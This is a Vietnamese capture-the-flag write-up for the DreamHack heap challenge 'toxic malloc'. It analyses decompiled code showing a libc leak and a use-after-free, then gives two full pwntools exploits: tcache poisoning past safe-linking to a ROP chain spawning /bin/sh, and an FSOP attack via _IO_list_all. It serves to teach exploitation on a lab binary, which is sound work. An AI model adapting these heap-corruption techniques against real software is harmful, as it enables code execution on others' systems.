



# toxic-malloc---Write-up-----DreamHack
Hướng dẫn cách giải bài toxic malloc cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 16/8/2026

## 1. Mục tiêu
Đầu tiên là đọc code và tìm bug

```C
void __noreturn sub_16D3()
{
  __int64 v0; // [rsp+8h] [rbp-38h] BYREF
  __int64 v1[6]; // [rsp+10h] [rbp-30h] BYREF

  v1[5] = __readfsqword(0x28u);
  memset(v1, 0, 40);
  while ( 1 )
  {
    puts("\n=== menu ===");
    puts("1. create");
    puts("2. update");
    puts("3. read");
    puts("4. delete");
    puts("5. exit");
    printf("enter your choice: ");
    __isoc99_scanf("%ld", &v0);
    while ( getchar() != 10 )
      ;
    switch ( v0 )
    {
      case 1LL:
        sub_12B0(v1);
        break;
      case 2LL:
        sub_1412(v1);
        break;
      case 3LL:
        sub_1507(v1);
        break;
      case 4LL:
        sub_15ED(v1);
        break;
      case 5LL:
        puts("exiting program.");
        exit(0);
      default:
        printf("%ld is invalid choice, please try again.\n", v0);      // Leak v0
        break;
    }
  }
}
```

```C
unsigned __int64 __fastcall sub_15ED(__int64 a1)
{
  unsigned int v2; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v2 = 0;
  printf("enter index of data to delete (0-4): ");
  __isoc99_scanf("%d", &v2);
  if ( v2 < 5 )
  {
    if ( *(_QWORD *)(8LL * (int)v2 + a1) )
    {
      free(*(void **)(8LL * (int)v2 + a1));
      puts("data deleted successfully.");        // Use After Free
    }
    else
    {
      puts("no data to delete.");
    }
  }
  else
  {
    puts("invalid index. please try again.");
  }
  return v3 - __readfsqword(0x28u);
}
```

Về cơ bản thì có 2 lỗi chính là leak memory từ `v0` và **UAF**. Giờ mình sẽ nói qua về việc leak `v0`. Khi nó yêu cầu chúng ta nhập long int vào 1 biến mà chúng ta nhập `+, -` thì nó sẽ không ghi bất cứ giá trị nào vào đó. Trùng hợp thay thì khi chúng ta nhập vậy thì nó sẽ thực hiện câu lệnh `printf("%ld is invalid choice, please try again.\n", v0);`. Giờ kiểm tra xem `v0` ban đầu là gì đã.



Tại vị trí `v0` là 1 libc, vậy là chúng ta sẽ leak được libc dưới dạng chuỗi số nguyên.

Sau khi có được libc thì chúng ta sẽ có 2 cách giải quyết 1 là **FSOP** và 2 là **ret2libc**. Mình sẽ sử dụng **ret2libc** để cho dễ, **FSOP** thì mình sẽ để source code cho ai hứng thú có thể đọc.

Giờ bắt tay vô thôi.

## 2. Cách thực thi
Đầu tiên là leak libc như mình đã chỉ

```Python
def create(idx, payload):
    p.sendlineafter(b'enter your choice: ', b'1')
    p.sendlineafter(b'enter index for new data (0-4): ', str(idx).encode())
    p.sendafter(b'enter data for creation: ', payload)

def update(idx, payload):
    p.sendlineafter(b'enter your choice: ', b'2')
    p.sendlineafter(b'enter index of data to update (0-4): ', str(idx).encode())
    p.sendafter(b'enter data for update: ', payload)

def read(idx):
    p.sendlineafter(b'enter your choice: ', b'3')
    p.sendlineafter(b'enter index of data to read (0-4): ', str(idx).encode())

def delete(idx):
    p.sendlineafter(b'enter your choice: ', b'4')
    p.sendlineafter(b'enter index of data to delete (0-4): ', str(idx).encode())

p.sendlineafter(b'enter your choice: ', b'+')
leak_libc = int(p.recv(15))
log.success(f'Leak Libc : {hex(leak_libc)}')
libc.address = leak_libc - 0x816e5
log.success(f'Libc base : {hex(libc.address)}')
```

Giờ muốn leak được stack ta cần phải trỏ vào `environ` để đọc nội dung trong đó, mình sẽ sử dụng **Double Free** và sửa đổi con trỏ để khi malloc nó sẽ malloc vào `environ`. Nhưng mà bài này ở phiên bản libc 2.35 có cơ chế **Safe Linking** nên mình sẽ leak heap và sử dụng nó để tính ra con trỏ vào `environ`.

```Python
read(0)
p.recvuntil(b'data: ')
leak_heap = u64(p.recv(5) + b'\x00\x00\x00')
heap = leak_heap << 12
log.success(f'Heap : {hex(heap)}')
```

Sau khi có libc base + heap base thì ta sẽ bắt đầu tính toán địa chỉ `environ` và con trỏ để trỏ vào nó. Khi chúng ta `create` 1 note mới thì nó yêu cầu chúng ta phải nhập dữ liệu vào, nếu rút ra và nhập thẳng vào sẽ làm hư stack. Do đó mình sẽ lùi lại 16 byte vì nó sẽ không ghi vào `environ` đồng thời không dính lỗi **Alignment** của malloc ( yêu cầu đuôi phải là 0x0 ).

```Python
update(0, b'B' * 16)
delete(0)

environ = libc.symbols['environ'] - 16
target_environ = environ ^ ( heap >> 12 )
update(0, p64(target_environ))
create(1, b'BBBB')
create(2, b'C' * 16)
read(2)

p.recvuntil(b'C' * 16)
leak_stack = u64(p.recv(6) + b'\x00\x00')
rbp = leak_stack - 0x138 - 0x50
log.success(f'RBP : {hex(rbp)}')
```



Sau khi có stack thì mình sẽ lựa chọn `RIP` của 1 thằng nào đó ghi **ROPchain** vào. Ta không thể ghi vào thằng `main` được vì nó sẽ `call exit(0)` thay vì `return 0` nên sẽ không thực thi chuỗi **ROPchain** của mình. Vì thế mình chọn của thằng `update` luôn để khi ghi vào là ra shell luôn.

```Python
delete(0)
update(0, b'B' * 16)
delete(0)

target = rbp ^ ( heap >> 12 )
update(0, p64(target))
create(3, b'DDDD')

payload = b''
payload += p64(0xdeadbeef)
payload += p64(libc.address + 0x2a3e5)
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.address + 0x29139)
payload += p64(libc.symbols['system'])
create(4, payload)
```



Bùm nổ shell.


Bài này thực ra lúc đầu mình làm là **FSOP** vì không đủ note để vừa leak libc vừa leak environ vừa ghi vào RIP. Mình đọc write up của người khác và thấy họ leak libc bằng cách ghi `+` lúc chọn menu nên mình đã làm thêm 1 solve mới để thử. Thôi thì cảm ơn các bạn đã đọc hãy cho mình 1 star để có động lực viết tiếp nha chứ dạo này mình hơi bị lười viết rồi đó 🐧.

## 3. Exploit
```Python
from pwn import *

exe = ELF("chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")
context.arch = 'amd64'

context.binary = exe

p = process('./chall_patched')
#p = remote('host3.dreamhack.games', 21202)

def create(idx, payload):
    p.sendlineafter(b'enter your choice: ', b'1')
    p.sendlineafter(b'enter index for new data (0-4): ', str(idx).encode())
    p.sendafter(b'enter data for creation: ', payload)

def update(idx, payload):
    p.sendlineafter(b'enter your choice: ', b'2')
    p.sendlineafter(b'enter index of data to update (0-4): ', str(idx).encode())
    p.sendafter(b'enter data for update: ', payload)

def read(idx):
    p.sendlineafter(b'enter your choice: ', b'3')
    p.sendlineafter(b'enter index of data to read (0-4): ', str(idx).encode())

def delete(idx):
    p.sendlineafter(b'enter your choice: ', b'4')
    p.sendlineafter(b'enter index of data to delete (0-4): ', str(idx).encode())

p.sendlineafter(b'enter your choice: ', b'+')
leak_libc = int(p.recv(15))
log.success(f'Leak Libc : {hex(leak_libc)}')
libc.address = leak_libc - 0x816e5
log.success(f'Libc base : {hex(libc.address)}')

create(0, b'AAAA')
delete(0)
read(0)

read(0)
p.recvuntil(b'data: ')
leak_heap = u64(p.recv(5) + b'\x00\x00\x00')
heap = leak_heap << 12
log.success(f'Heap : {hex(heap)}')

update(0, b'B' * 16)
delete(0)

environ = libc.symbols['environ'] - 16
target_environ = environ ^ ( heap >> 12 )
update(0, p64(target_environ))
create(1, b'BBBB')
create(2, b'C' * 16)
read(2)

p.recvuntil(b'C' * 16)
leak_stack = u64(p.recv(6) + b'\x00\x00')
rbp = leak_stack - 0x138 - 0x50
log.success(f'RBP : {hex(rbp)}')

delete(0)
update(0, b'B' * 16)
delete(0)

target = rbp ^ ( heap >> 12 )
update(0, p64(target))
create(3, b'DDDD')
pause()

payload = b''
payload += p64(0xdeadbeef)
payload += p64(libc.address + 0x2a3e5)
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.address + 0x29139)
payload += p64(libc.symbols['system'])
create(4, payload)

p.interactive()
```

## 3.1 Bonus FSOP
```Python
from pwn import *

exe = ELF("chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process('./chall_patched')
p = remote('host3.dreamhack.games', 8706)

def create(idx, payload):
    p.sendlineafter(b'enter your choice: ', b'1')
    p.sendlineafter(b'enter index for new data (0-4): ', str(idx).encode())
    p.sendafter(b'enter data for creation: ', payload)

def update(idx, payload):
    p.sendlineafter(b'enter your choice: ', b'2')
    p.sendlineafter(b'enter index of data to update (0-4): ', str(idx).encode())
    p.sendafter(b'enter data for update: ', payload)

def read(idx):
    p.sendlineafter(b'enter your choice: ', b'3')
    p.sendlineafter(b'enter index of data to read (0-4): ', str(idx).encode())

def delete(idx):
    p.sendlineafter(b'enter your choice: ', b'4')
    p.sendlineafter(b'enter index of data to delete (0-4): ', str(idx).encode())

create(0, b'AAAA')
create(1, b'BBBB')
delete(0)
read(0)

p.recvuntil(b'data: ')
leak_heap = u64(p.recv(5) + b'\x00\x00\x00')
log.success(f'Leak Heap : {hex(leak_heap)}')
heap = leak_heap << 12
log.success(f'Heap : {hex(heap)}')

for i in range(0, 7):
    update(0, b'CCCCCCCCCCCCCC')
    delete(0)

read(0)
p.recvuntil(b'data: ')
leak_libc = u64(p.recv(6) + b'\x00\x00')
libc.address = leak_libc - 0x21ace0
log.success(f'Libc base : {hex(libc.address)}')

IO_list_all = libc.symbols['_IO_list_all']
target = IO_list_all ^ ( heap >> 12 )
update(0, p64(target))
create(2, b'CCCC')
create(3, p64(heap + 0x2a0))

chunk = heap + 0x2a0
payload = bytearray(b'\x00' * 256)
payload[0x00:0x08] = b"  sh;\x00\x00\x00"
payload[0x28:0x30] = p64(1)
payload[0x68:0x70] = p64(libc.symbols['system'])
payload[0x88:0x90] = p64(chunk + 0xf0)
payload[0xa0:0xa8] = p64(chunk)

payload2 = b''
payload2 += b'\x00' * 24
payload2 += p64(libc.symbols['_IO_wfile_jumps'])
payload2 += p64(chunk)

update(0, payload)
update(1, payload2)

p.interactive()
```
